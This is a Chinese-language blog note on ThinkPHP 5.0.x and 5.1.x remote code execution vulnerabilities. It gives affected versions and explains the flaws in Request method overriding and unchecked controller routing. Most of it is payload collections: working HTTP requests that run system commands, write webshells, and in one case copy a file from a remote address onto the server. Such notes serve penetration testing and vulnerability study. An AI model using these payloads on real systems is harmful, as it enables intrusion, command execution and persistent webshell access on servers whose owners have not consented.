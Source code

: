 ```yaml
---
layout: post
title: THINKPTP5_RCE
date: 2022-10-7
categories: blog
tags: [笔记]
description: tp5 rce漏洞 梳理

---
```


## Thinkphp5.x rce

***

### ThinkPHP5.0.x 变量覆盖RCE

#### 影响版本

`5.0.0 - 5.0.23`

#### 漏洞成因

利用`伪全局变量覆盖`达到命令执行的目的  
在`thinkphp/library/think/Request.php`的`method`方法存在漏洞，可以通过post数组传入`__method`任意调用Request类中的方法  
Request中的`__construct`方法中`foreach`调用可以覆盖Request类中的属性，导致原本的`filter`可以被覆盖成`system`  
Thinkphp5中定义了验证码类路由地址`?s=captcha`，默认这个方法能够调用`Request::instance()->param()`  
执行`$request->param()`会进入`input()`方法，在这个方法中将覆盖的`filter`回调`call_user_func()`，实现rce

理解：`__construct()`中的`$this->$name = $item` 做到类属性任意覆盖，被覆盖的类属性又被用在`call_user_func()`中

5.0.13之后版本默认debug=false 需要开启debug后才能利用此漏洞进行命令执行，可以通过添加路由触发rce

#### payload收集

```php
5.0.1-5.0.13 
//命令执行
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter

//写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

5.0.13-5.0.23
//开启debug命令执行
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc

//无需开启debug命令执行
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
    
//需开启debug写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

### ThinkPHP5.1.x未开启强制路由

#### 影响版本

`5.1.0 - 5.1.30`

#### 漏洞成因

thinkphp默认未开启强制路由且默认开启路由兼容模式  
兼容模式可以调用控制器(controller)执行，根据前一个RCE漏洞可知所有用户参数都会调用Request::input()  
其会调用filterValue方法，此方法中包含call_user_func

理解：流程中没有对控制器进行合法校验，导致可以调用任意控制器，实现rce

#### payload收集 

```php
#命令执行
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='whoami'

#写入webshell
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>  //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```
